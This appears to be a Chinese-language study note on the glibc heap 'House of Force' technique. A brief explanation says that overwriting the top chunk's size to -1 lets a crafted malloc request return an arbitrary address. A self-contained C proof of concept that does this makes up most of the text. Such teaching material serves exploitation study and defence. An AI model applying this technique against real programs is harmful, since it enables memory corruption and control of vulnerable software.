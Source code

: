 这个攻击是针对topchunk的攻击，如果我们可以修改topchunk的大小，将他改成特别大（-1），那么我们可以通过计算malloc的传入参数，使得我们可以用malloc返回任意的地址，这个任意地址可以在topchunk的前面和后面，因为malloc的参数是负数也可以，会整数溢出然后正常利用。

* 条件
  * 能够修改top chunk的大小

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc";

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  struct chunk_structure *chunk, *top_chunk;
  unsigned long long *ptr;
  size_t requestSize, allotedSize;

  //void *victim = main;

  printf("%p\n", victim);

  // First, request a chunk, so that we can get a pointer to top chunk
  ptr = malloc(256);
  chunk = (struct chunk_structure *)(ptr - 2);
  printf("%p\n", chunk);

  // lower three bits of chunk->size are flags
  allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

  // top chunk will be just next to 'ptr'
  top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);
  printf("%p\n", top_chunk);

  // here, attacker will overflow the 'size' parameter of top chunk
  top_chunk->size = -1;       // Maximum size

  // Might result in an integer overflow, doesn't matter
  requestSize = (size_t)victim            // The target address that malloc should return
                  - (size_t)top_chunk     // The present address of the top chunk
                  - 2*sizeof(long long)   // Size of `size` and `prev_size`
                  - sizeof(long long);    // Additional buffer

  // This also needs to be forced by the attacker
  // This will advance the top_chunk ahead by (requestSize+header+additional buffer)
  // Making it point to `victim`
  printf("%p\n", malloc(requestSize));

  // The top chunk again will service the request and return `victim`
  ptr = malloc(100);
  printf("%p\n", ptr);

  return 0;
}
```